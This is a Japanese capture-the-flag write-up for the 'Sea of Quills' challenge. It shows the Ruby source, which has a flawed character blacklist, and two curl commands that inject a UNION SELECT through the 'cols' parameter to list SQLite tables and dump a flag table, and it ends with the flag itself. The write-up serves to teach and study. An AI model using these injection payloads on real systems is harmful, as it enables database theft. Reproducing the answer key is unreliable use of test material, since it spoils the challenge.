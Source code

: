 # Writeup

`cols`, `limit`, `offset` のPOSTパラメータでクエリを実行する仕組みになっている。

```rb
@row = db.execute("select %s from quills limit %s offset %s" % [cols, lim, off])
```

ただし、`cols`には`blacklist`の文字が使えず、`limit`,`offset`には数字しか使えない。

```rb
blacklist = ["-", "/", ";", "'", "\""]
blacklist.each { |word|
    if cols.include? word
        return "beep boop sqli detected!"
    end
}

if !/^[0-9]+$/.match?(lim) || !/^[0-9]+$/.match?(off)
    return "bad, no quills for you!"
end
```

UNION句を`cols`に入れて他のテーブルを探す。ソースコードからsqliteが使われていることが分かっているので、`sqlite_master`の`name`を参照する。

UNIONの後半部分の列数は3なので前半部分も3に合わせておく。

```bash
$ curl https://seaofquills.2021.chall.actf.co/quills -X POST -d "cols=name,0,0 from sqlite_master union select *&limit=10&offset=0"
```

`flagtable`というテーブル名が存在していることが分かったので中身を見る。

```bash
$ curl https://seaofquills.2021.chall.actf.co/quills -X POST -d "cols=*,*,* from flagtable union select *&limit=10&offset=0" > index.html
```

<!-- actf{and_i_was_doing_fine_but_as_you_came_in_i_watch_my_regex_rewrite_f53d98be5199ab7ff81668df} -->